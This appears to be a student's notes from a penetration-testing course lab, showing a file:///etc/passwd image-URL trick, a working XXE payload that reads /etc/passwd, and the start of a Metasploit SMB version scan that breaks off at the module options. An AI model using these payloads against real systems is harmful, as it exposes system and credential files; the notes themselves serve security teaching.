 We were also able to change the POST to set the image url to `file:///etc/passwd` which retrieved the password file instead. Copying the image location in the final message and navigating to it will lead to that file.

#### XML External Entity (XXE)

A type of attack against an application that parses XML input. Some parsers don't sanitize input properly, allowing attackers to send a command. Some example XML can be found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection).

For this application, if we can create our own XML entity and include it in the existent XML we should be able to get the XML parser to read our request.

During the POST, I changed the `XML` from `<request><id>19</id></request>` to

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
 <!DOCTYPE request [  
  <!ELEMENT request ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><request><id>19&xxe;</id></request>
```

This rendered the `/etc/passwd` file.

## Day 3

We are going through some example ways of gaining access to some machines.


### Linux

```bash
root@kali:~# msfconsole 
                                                  

MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMM                MMMMMMMMMM
MMMN$                           vMMMM
MMMNl  MMMMM             MMMMM  JMMMM
MMMNl  MMMMMMMN       NMMMMMMM  JMMMM
MMMNl  MMMMMMMMMNmmmNMMMMMMMMM  JMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMMMMMMMMMMMMMMMMMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMMM   MMMMMMM   MMMMM  jMMMM
MMMNI  MMMNM   MMMMMMM   MMMMM  jMMMM
MMMNI  WMMMM   MMMMMMM   MMMM#  JMMMM
MMMMR  ?MMNM             MMMMM .dMMMM
MMMMNm `?MMM             MMMM` dMMMMM
MMMMMMN  ?MM             MM?  NMMMMMN
MMMMMMMMNe                 JMMMMMNMMM
MMMMMMMMMMNm,            eMMMMMNMMNMM
MMMMNNMNMMMMMNx        MMMMMMNMMNMMNM
MMMMMMMMNMMNMMMMm+..+MMNMMNMNMMNMMNMM
        https://metasploit.com


       =[ metasploit v4.17.25-dev                         ]
+ -- --=[ 1828 exploits - 1030 auxiliary - 318 post       ]
+ -- --=[ 541 payloads - 44 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

msf > use auxiliary/scanner/smb/smb_version 
msf auxiliary(scanner/smb/smb_version) > options

Module options (auxiliary/scanner/smb/smb_version):

```